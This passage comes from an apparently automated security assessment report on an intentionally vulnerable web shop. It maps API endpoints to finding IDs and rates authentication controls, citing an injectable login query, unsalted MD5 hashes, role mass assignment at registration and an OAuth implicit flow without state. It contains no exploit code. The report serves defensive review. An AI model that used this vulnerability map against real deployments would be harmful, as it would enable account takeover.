<tr><td style="overflow-wrap:break-word">PUT <code>/<wbr>api/<wbr>BasketItems/:id</code><br/>POST <code>/<wbr>api/<wbr>BasketItems</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-119">F-119</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>profile/<wbr>image/<wbr>file</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-044">F-044</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-081">F-081</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PATCH · POST <code>/<wbr>rest/<wbr>products/<wbr>reviews</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-035">F-035</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · PUT <code>/<wbr>rest/<wbr>wallet/<wbr>balance</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-027">F-027</a></span>, <span style="white-space:nowrap"><a href="#f-036">F-036</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT <code>/<wbr>api/<wbr>Feedbacks/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072">F-072</a></span>, <span style="white-space:nowrap"><a href="#f-118">F-118</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT · DELETE <code>/<wbr>api/<wbr>Recycles/:id</code><br/>POST <code>/<wbr>api/<wbr>Recycles</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-053">F-053</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · POST <code>/<wbr>api/<wbr>Complaints</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · POST <code>/<wbr>dataerasure</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-023">F-023</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-097">F-097</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>profile/<wbr>image/<wbr>url</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-044">F-044</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-081">F-081</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>user/<wbr>authentication-details</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-069">F-069</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-114">F-114</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT · DELETE · GET <code>/<wbr>api/<wbr>Addresss/:id</code><br/>GET <code>/<wbr>rest/<wbr>basket/:id</code><br/>POST <code>/<wbr>rest/<wbr>basket/:id/<wbr>checkout</code><br/>PUT <code>/<wbr>rest/<wbr>basket/:id/<wbr>coupon/:coupon</code><br/>POST · GET <code>/<wbr>api/<wbr>Addresss</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>b2b/<wbr>v2/<wbr>orders</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-025">F-025</a></span></td></tr>
</tbody>
</table>

<details><summary>15 more entry points without Critical or High findings</summary>
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="62%" style="width:62%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Entry point</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>memories</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-082">F-082</a></span>, <span style="white-space:nowrap"><a href="#f-099">F-099</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>2fa/<wbr>verify</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072">F-072</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT <code>/<wbr>rest/<wbr>order-history/:id/<wbr>delivery-status</code><br/>GET <code>/<wbr>rest/<wbr>order-history</code><br/>GET <code>/<wbr>rest/<wbr>order-history/<wbr>orders</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-108">F-108</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST · GET <code>/<wbr>api/<wbr>PrivacyRequests</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>api/<wbr>SecurityAnswers</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-085">F-085</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>deluxe-membership</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-083">F-083</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>user/<wbr>data-export</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-107">F-107</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT · DELETE · GET <code>/<wbr>api/<wbr>Cards/:id</code><br/>GET · DELETE <code>/<wbr>api/<wbr>Hints/:id</code><br/>DELETE <code>/<wbr>api/<wbr>Quantitys/:id</code></td><td style="overflow-wrap:break-word">⚑ Review: no authz guard detected</td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>2fa/<wbr>disable</code><br/>POST <code>/<wbr>rest/<wbr>2fa/<wbr>setup</code><br/>GET <code>/<wbr>rest/<wbr>2fa/<wbr>status</code></td><td style="overflow-wrap:break-word">⚑ Review: auth/token endpoint</td></tr>
</tbody>
</table>
</details>

_6 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (60 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.3 Authentication Not Determined (85)

The analysis could not establish whether these entry points require authentication.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="62%" style="width:62%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Entry point</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>products/<wbr>search</code></td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004">F-004</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>api/<wbr>Users</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-060">F-060</a></span>, <span style="white-space:nowrap"><a href="#f-066">F-066</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>chat</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-038">F-038</a></span>, <span style="white-space:nowrap"><a href="#f-049">F-049</a></span>, <span style="white-space:nowrap"><a href="#f-065">F-065</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>user/<wbr>reset-password</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-021">F-021</a></span>, <span style="white-space:nowrap"><a href="#f-022">F-022</a></span>, <span style="white-space:nowrap"><a href="#f-046">F-046</a></span><br/>Public by design</td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>api/<wbr>Products</code><br/>GET · PUT <code>/<wbr>api/<wbr>Products/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-026">F-026</a></span>, <span style="white-space:nowrap"><a href="#f-061">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>api/<wbr>BasketItems</code><br/>GET · DELETE <code>/<wbr>api/<wbr>BasketItems/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-119">F-119</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">ALL <code>/<wbr>encryptionkeys/:file</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-039">F-039</a></span>, <span style="white-space:nowrap"><a href="#f-058">F-058</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-106">F-106</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">ALL <code>/<wbr>support/<wbr>logs/:file</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-039">F-039</a></span>, <span style="white-space:nowrap"><a href="#f-058">F-058</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-105">F-105</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>file-upload</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-024">F-024</a></span>, <span style="white-space:nowrap"><a href="#f-040">F-040</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">PUT · GET <code>/<wbr>rest/<wbr>products/:id/<wbr>reviews</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-035">F-035</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>user/<wbr>change-password</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-015">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-043">F-043</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST · GET <code>/<wbr>api/<wbr>Feedbacks</code><br/>GET · DELETE <code>/<wbr>api/<wbr>Feedbacks/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072">F-072</a></span>, <span style="white-space:nowrap"><a href="#f-118">F-118</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>user/<wbr>security-question</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-046">F-046</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-101">F-101</a></span>, <span style="white-space:nowrap"><a href="#f-102">F-102</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · PUT · DELETE <code>/<wbr>api/<wbr>Complaints/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>api/<wbr>Recycles</code><br/>GET <code>/<wbr>api/<wbr>Recycles/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-053">F-053</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>track-order/:id</code></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-034">F-034</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-109">F-109</a></span></td></tr>
</tbody>
</table>

<details><summary>20 more entry points without Critical or High findings</summary>
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="62%" style="width:62%"><col width="38%" style="width:38%"></colgroup>
<thead><tr><th>Entry point</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>memories</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-082">F-082</a></span>, <span style="white-space:nowrap"><a href="#f-099">F-099</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>metrics</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-103">F-103</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>admin/<wbr>application-configuration</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-100">F-100</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>rest/<wbr>web3/<wbr>walletNFTVerify</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-074">F-074</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET · PUT · DELETE <code>/<wbr>api/<wbr>PrivacyRequests/:id</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-084">F-084</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">POST <code>/<wbr>api/<wbr>SecurityAnswers</code><br/>GET · PUT · DELETE <code>/<wbr>api/<wbr>SecurityAnswers/:id</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-085">F-085</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>redirect</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-123">F-123</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>captcha</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-110">F-110</a></span><br/>Public by design</td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>deluxe-membership</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-083">F-083</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>image-captcha</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-073">F-073</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>user/<wbr>whoami</code></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-104">F-104</a></span></td></tr>
<tr><td style="overflow-wrap:break-word">GET <code>/<wbr>rest/<wbr>admin/<wbr>application-version</code><br/>PUT <code>/<wbr>rest/<wbr>continue-code-findIt/<wbr>apply/:continueCode</code><br/>PUT <code>/<wbr>rest/<wbr>continue-code-fixIt/<wbr>apply/:continueCode</code><br/>PUT <code>/<wbr>rest/<wbr>continue-code/<wbr>apply/:continueCode</code><br/>POST <code>/<wbr>rest/<wbr>web3/<wbr>submitKey</code><br/>POST <code>/<wbr>rest/<wbr>web3/<wbr>walletExploitAddress</code><br/>POST <code>/<wbr>snippets/<wbr>fixes</code><br/>POST <code>/<wbr>snippets/<wbr>verdict</code></td><td style="overflow-wrap:break-word">⚑ Review: no auth guard detected</td></tr>
</tbody>
</table>
</details>

_34 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (85 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 6. Security Architecture

This chapter is organized by security-control category. Findings are listed only where the affected control is described.

_Cataloged controls: 35 total - 2 adequate, 10 partial, 15 weak, 4 unsafe, 4 missing._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What to do |
|----------|------------------------------------|----------------------|
| 🔴 Unsafe | Present and relied upon, but defeated or<br/>trivially bypassable | Fix the existing control |
| 🔴 Missing | Control was never built | Add the control |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟢 Adequate | Control is present and sound | Nothing, keep it |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no `Content-Security-Policy` header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Findings | Weakest controls |
|----------------------|---------|----------------|----------------------|
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🔴 Missing | 19 | Outbound URL fetch restrictions (profile<br/>image URL) |
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🔴 Unsafe | 16 | Password-Based Login, User Registration |
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 8 | Build pipeline and dependency controls, Rate<br/>limiting |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🔴 Unsafe | 5 | Embedded MarsDB data access control, Login<br/>credential lookup query construction |
| [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls) | 🔴 Missing | – | WebSocket connection authentication,<br/>Socket\.IO connection |
| [6.4 Authorization Controls](#64-authorization-controls) | 🟠 Weak | 29 | Wallet ownership verification for NFT mint<br/>and wallet listener, Route-level<br/>authorization middleware |
| [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls) | 🟠 Weak | 5 | WebSocket message handler input validation,<br/>Upload size, type and filename controls |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🟠 Weak | 5 | None catalogued |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🟠 Weak | 3 | Outbound webhook payload protection,<br/>Embedded SQLite database configuration |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🟠 Weak | 2 | Static page hardening / CSP, WebSocket CORS<br/>origin restriction |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🟠 Weak | 1 | Cookie/token session lookup and cookie<br/>signing, Client-side JWT storage |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls

<a id="ctrl-identity-and-authentication-controls"></a>


**Systemic weaknesses:** [W-003](#w-003), [W-004](#w-004), [W-011](#w-011), [W-012](#w-012)
**Verdict:** 🔴 Unsafe - login, registration and password reset are each defeated by injection, mass assignment or guessable recovery.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 OAuth implicit flow login](#621-oauth-implicit-flow-login)
- [6.2.2 Second-factor (TOTP) gating at login](#622-second-factor-totp-gating-at-login)
- [6.2.3 Password-Based Login](#623-password-based-login)
- [6.2.4 User Registration](#624-user-registration)
- [6.2.5 Password Reset](#625-password-reset)

**Implemented controls:** OAuth implicit flow login, Password handling in client, Second-factor (TOTP) gating at login, Password-Based Login, User Registration.

**Assessment:** Credential checks fail at three points: the login query is injectable (🔴 [F-011](#f-011)), password hashes are unsalted `MD5` (🟠 [F-047](#f-047) (Unsalted `MD5` password hashing and no strength policy)), and recovery relies on guessable answers (🟠 [F-021](#f-021)). Registration accepts a client-chosen role (🟠 [F-066](#f-066)). Each successful flow above terminates in the server issuing a session token; the signing, validation, storage and lifecycle of that token are described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms.** Each name links to the section that assesses it.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="40%" style="width:40%"><col width="16%" style="width:16%"><col width="44%" style="width:44%"></colgroup>
<thead><tr><th>Mechanism</th><th>Status</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">Password reset / change</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Unsafe</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-015">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-021">F-021</a></span>, <span style="white-space:nowrap"><a href="#f-022">F-022</a></span>, <span style="white-space:nowrap"><a href="#f-046">F-046</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-101">F-101</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">User registration</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Unsafe</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-066">F-066</a></span>, <span style="white-space:nowrap"><a href="#f-067">F-067</a></span>, <span style="white-space:nowrap"><a href="#f-068">F-068</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">Password login</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Unsafe</span></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-077">F-077</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#63-session-and-token-controls">JWT / bearer-token session</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 Weak</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-003">F-003</a></span>, <span style="white-space:nowrap"><a href="#f-019">F-019</a></span>, <span style="white-space:nowrap"><a href="#f-020">F-020</a></span>, <span style="white-space:nowrap"><a href="#f-048">F-048</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-071">F-071</a></span>, <span style="white-space:nowrap"><a href="#f-078">F-078</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">OAuth / OIDC federated login</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 Weak</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-016">F-016</a></span>, <span style="white-space:nowrap"><a href="#f-017">F-017</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-075">F-075</a></span>, <span style="white-space:nowrap"><a href="#f-112">F-112</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#69-cryptography-secrets-and-data-protection">Password storage (hashing)</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 At risk</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-043">F-043</a></span>, <span style="white-space:nowrap"><a href="#f-045">F-045</a></span>, <span style="white-space:nowrap"><a href="#f-047">F-047</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">Multi-factor authentication (TOTP / 2FA)</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟡 Partial</span></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-111">F-111</a></span></td></tr>
</tbody>
</table>

_Also checked, not detected on this codebase: Session-token storage._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

**Findings in this category without a control:**

- 🟠 [F-019](#f-019) — JWT decode used without signature verification
- 🟠 [F-020](#f-020) — Insecure JWT Verification
- 🟠 [F-026](#f-026) — Unauthenticated modification of products
- 🟡 [F-070](#f-070) — Product review author taken from request
- 🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity
- 🟡 [F-074](#f-074) — Wallet ownership claimed without signature proof
- 🟡 [F-076](#f-076) — Unauthenticated WebSocket Channel
- 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm
- 🟡 [F-103](#f-103) — Unauthenticated Prometheus metrics endpoint

<a id="oauth-implicit-flow-login"></a>
#### 6.2.1 OAuth implicit flow login

**Status:** 🟠 Weak - the implicit flow carries no state or nonce, so a forged redirect can inject a token.

<!-- Model implementation note (facts for the intro): login.component.ts googleLogin(); user.service.ts oauthLogin() -->
`login.component.ts` starts Google login in `googleLogin()`, and `user.service.ts` `oauthLogin()` turns the returned profile into a local login.

The diagram shows the frontend OAuth adapter ending in the local login endpoint:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Google login uses response_type=token (implicit flow) with no state or nonce parameter. The access token is passed in a URL query string to the userinfo endpoint. The redirect URI is checked against a configured allowlist, which is a partial mitigation. -->
The adapter trusts whatever token arrives in the redirect:

- The implicit flow sends no `state` or `nonce` and no audience check (🟠 [F-016](#f-016), 🟡 [F-075](#f-075)).
- The local password is derived from the email, so anyone who knows the email can compute it (🟠 [F-017](#f-017)).
- The access token travels in the URL fragment and query string, where logs and history can capture it (🟡 [F-112](#f-112)).
- A redirect allowlist exists, which is a partial mitigation only.


**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="password-handling-in-client"></a>
**Password handling in client.**


**Status:** 🟠 Weak - current and new passwords travel as GET query parameters, and the form accepts any one-character password.

<!-- Model implementation note (facts for the intro): user.service.ts changePassword(); login.component.ts -->
`user.service.ts` `changePassword()` calls the change endpoint, and `login.component.ts` holds the login form.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): changePassword sends the current and new passwords as GET query parameters, which can end up in logs and history. The login form enforces only a minimum length of 1. Test credentials are hardcoded in the component. -->
Client-side password handling leaks and under-validates credentials:

- Passwords in query strings can end up in server logs and browser history.
- The login form enforces a minimum length of 1.
- Test credentials are hardcoded in the component.
- The server accepts a change without the current password (🟠 [F-015](#f-015)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="second-factor-totp-gating-at-login"></a>
#### 6.2.2 Second-factor (TOTP) gating at login

**Status:** 🟡 Partial - a TOTP gate exists, but it depends on the injectable user lookup that feeds it.

`routes/login.ts` returns 401 with a temporary token of type `password_valid_needs_second_factor_token` when the user row has a TOTP secret.

The diagram shows the positive login path, including the branch into TOTP verification:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): When the user record has a TOTP secret, login returns 401 with a temporary token of type password_valid_needs_second_factor_token instead of a session. The gate depends on the user row returned by the injectable query at line 34. TOTP verification in routes/2fa.ts was not inspected in this slice. -->
The second factor is only as strong as the steps around it:

- The gate reads the user row returned by the injectable query, so a successful injection decides which row, and therefore which TOTP secret, is used (🔴 [F-011](#f-011)).
- TOTP secrets are stored unencrypted (🟡 [F-111](#f-111)).
- Verification in `routes/2fa.ts` was not inspected in this slice, so its strength is unverified.


**Relevant findings**

